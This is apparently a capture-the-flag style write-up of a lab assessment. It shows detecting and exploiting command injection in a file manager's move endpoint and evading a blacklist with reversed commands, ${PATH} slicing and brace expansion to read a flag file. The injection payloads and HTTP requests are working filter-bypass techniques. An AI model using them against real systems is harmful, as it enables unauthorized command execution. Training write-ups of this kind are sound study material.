








## Scenario

> You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.
> 
> Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.

Access via: `http://154.57.164.71:41962`

Username: `guest`

Password: `guest`

Hint: `It is always easier to inject our command in an input going at the end of the command, rather than in the middle of it, though both are possible.`

## Exploring the File Manager

Landed on the login page and signed in with the provided `guest`/`guest` credentials, landing on the file manager's dashboard, which listed a folder (`tmp`) and ten text files.





Clicked around into a few of the files. They were all just random documents, containing the literal text `this is just a random document` (except for the last one which humorously urged us to stop looking at the files). Opening them directly resulted in an error, and there was no reason to download them, so I went back to the file listing.



Noticed a "Copy to…" action next to each file. Clicking into the `tmp` folder and then clicking copy did exactly that: it copied the file into `tmp`, and the resulting URL was `http://154.57.164.71:41962/index.php?to=tmp&from=51459716.txt&finish=1`, revealing the `to` and `from` parameters behind the copy functionality.


## Testing the Copy and Move Endpoints for Injection

Captured this copy request with Burp and sent it to Repeater, to test whether the `to` and `from` parameters were vulnerable to command injection.

```http
GET /index.php?to=tmp&from=51459716.txt%0aid&finish=1 HTTP/1.1
```

**Breakdown:**

- `%0a` is a URL-encoded newline, injected into the `from` value in an attempt to start a new command
- `id` is the command being injected, to confirm command execution by returning the current user's identity

This didn't work. Tried a few more variations along the same lines, with no luck—just the same type of error each time, regardless of which command was being injected.

Tried using the `move` functionality instead of `copy`, to see whether that endpoint was the vulnerable one:

```http
GET /index.php?to=tmp&from=51459716.txt%0Awhoami&finish=1&move=1 HTTP/1.1
```

This also didn't work, but the response changed to "Malicious request denied," a more specific message than before, suggesting `move` was the right functionality to target, since it was actively filtering the request rather than just failing generically.



## Narrowing Down the Filter

Started again from scratch, testing one character at a time against the `move` endpoint. A bare `%0A` on its own was still blocked. `;` was blocked. Its encoded form, `%3B`, was blocked too.

`%26` (a URL-encoded `&`) seemed to get past the block. Testing it with the word `pwd` appended got blocked:

```http
GET /index.php?to=tmp&from=51459716.txt%26%pwd&finish=1&move=1 HTTP/1.1

Malicious request denied!
```

**Breakdown:**

- `%26` is the URL-encoded `&`, used to chain a second command after the file copy/move command
- `pwd` is the injected command, meant to print the current working directory



`&` itself wasn't blocked, but the word `pwd`. 

Tried the quote-insertion trick to break up the blacklisted word without changing what it does:

```http
GET /index.php?to=tmp&from=51459716.txt%26p"w"d&finish=1&move=1 HTTP/1.1

Error while moving...
```

**Breakdown:**

- `p"w"d` is `pwd` with a pair of empty double quotes inserted in the middle; the shell discards the quotes during parsing and reassembles the word as `pwd` before running it

This got past the blacklist (no "Malicious request denied" this time), but produced a "Error while moving" response instead.



Looking back, the current working directory was already printed here as `/var/www/html/`, but I was unaware at the time. 

## Confirming Command Execution With a Reversed Command

After a few more attempts, tried reversing the command instead of quote-splitting it. Confirmed locally first that reversing `pwd` and running it back through `rev` inside a command substitution executes it correctly:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ $(rev<<<dwp)

/home/—REDACTED—
```

**Breakdown:**

- `dwp` is `pwd` spelled backwards
- `rev<<<dwp` feeds the text `dwp` into `rev` via a here-string, which reverses it character-by-character back into `pwd`
- `$(...)` runs everything inside it in a subshell, captures its output (the text `pwd`), and substitutes that text in place of the whole expression, where it's then executed as the next command

Sent the same technique against the target:

```http
GET /index.php?to=tmp&from=51459716.txt%26$(rev<<<dwp)&finish=1&move=1 HTTP/1.1

Error while moving: mv: missing destination file operand after '/var/www/html/files/51459716.txt'
Try 'mv --help' for more information.
/var/www/html
```



It worked, revealing that the current working directory is the web root directory, `/var/www/html`.

## Building a Payload to Read the Flag

Moved on to retrieving the flag itself, assuming both a literal `/` and a literal space would be filtered on the target, based on how things had gone so far. Confirmed locally that `PATH` can be sliced to produce a `/` without ever typing the character:

```shell
┌──(—REDACTED—㉿kali)-[/]
└─$ echo ${PATH:0:1}

/
```

**Breakdown:**

- `${PATH:0:1}` takes the existing `PATH` variable's value and slices out a single character starting at position 0; since every `PATH` value begins with a directory path, that character is always `/`

Built and tested the full payload locally before sending anything to the target. First, confirmed brace expansion produces the right command text without using a literal space:

```shell
┌──(—REDACTED—㉿kali)-[/]
└─$ echo {cat,${PATH:0:1}flag.txt}

cat /flag.txt
```

**Breakdown:**

- `{cat,${PATH:0:1}flag.txt}` is a comma-separated brace-expansion group; Bash rewrites it into two separate words, `cat` and `${PATH:0:1}flag.txt`, with the comma standing in for the space between them
- `${PATH:0:1}` expands to `/` as before, so the second word becomes `/flag.txt`

Ran the expanded command directly in a fresh shell to confirm it actually executes as intended:

```shell
┌──(—REDACTED—㉿kali)-[/]
└─$ bash
┌──(—REDACTED—㉿kali)-[/]
└─$ {cat,${PATH:0:1}flag.txt}

cat: /flag.txt: No such file or directory
```

This failed with "No such file or directory," which was expected, given there's no `/flag.txt` on my local machine. The error confirmed the command itself ran correctly.

Reversed the whole expression, to get it past whatever filter was blocking characters on the target:

```shell
┌──(—REDACTED—㉿kali)-[/]
└─$ echo -n '{cat,${PATH:0:1}flag.txt}' | rev

}txt.galf}1:0:HTAP{$,tac{
```

**Breakdown:**

- `echo -n` prints the string without a trailing newline, so the reversal doesn't pick up an extra character at either end
- `'{cat,${PATH:0:1}flag.txt}'` is the exact original command, single-quoted so it's treated as literal text rather than being expanded before `rev` sees it
- `| rev` pipes that literal text into `rev`, which reverses it character by character

Confirmed the reversed string reverses back and executes correctly, first by piping it back through `rev` into `bash`:

```shell
┌──(—REDACTED—㉿kali)-[/]
└─$ echo -n '}txt.galf}1:0:HTAP{$,tac{' | rev | bash

cat: /flag.txt: No such file or directory
```

and then in the here-string form that the actual payload would use:

```shell
┌──(—REDACTED—㉿kali)-[/]
└─$ bash<<<$(rev<<<'}txt.galf}1:0:HTAP{$,tac{')

cat: /flag.txt: No such file or directory
```

**Breakdown:**

- `rev<<<'...'` feeds the quoted reversed string into `rev` via a here-string, reversing it back to `{cat,${PATH:0:1}flag.txt}`
- `$(...)` runs that and substitutes its output (the reconstructed command) in place of the whole expression
- `bash<<<` feeds that substituted text into a new `bash` process as its input, which runs it as a script

Both gave the same "No such file or directory" result as before, confirming the whole reversal-and-reconstruction chain works, with the only difference from the target being that the flag file doesn't exist locally.

## Getting Past the Filter on the Target

Sent the payload against the target, injecting it into the `from` parameter as before:

```http
GET /index.php?to=tmp&from=51459716.txt%26bash<<<$(rev<<<}txt.galf}1:0:HTAP{$,tac{)&finish=1&move=1 HTTP/1.1

Error while moving: mv: missing destination file operand after '/var/www/html/files/51459716.txt'
Try 'mv --help' for more information.
/var/www/html/files/tmp: Is a directory
```


At first I was confused, since the exact same `rev`/here-string chain had just worked fine locally. Thinking it through, the file manager must be building its move command as something like `mv /var/www/html/files/{from} /var/www/html/files/{to}` with no quoting at all, so the `&` wasn't starting a fresh command—whatever text the file manager normally appends as the destination argument was landing directly after whatever got injected. Since `bash` had been handed an actual trailing argument (`/var/www/html/files/tmp`) after the here-string, it was trying to run that path as a script instead of reading the here-string, and failing because it's a directory, not a file it could execute.

Recalling the earlier hint about injecting at the end of a command rather than in the middle of it, moved the payload into the `to` parameter instead, since nothing in the file manager's own command gets appended after `to`:

```http
GET /index.php?to=tmp%26bash<<<$(rev<<<}txt.galf}1:0:HTAP{$,tac{)&from=51459716.txt&finish=1&move=1 HTTP/1.1

Error while moving: mv: cannot stat '/var/www/html/files/51459716.txt': No such file or directory
—REDACTED—
```



It worked now with nothing appended after it, and returned the flag in the response.

**Answer:** `—REDACTED—`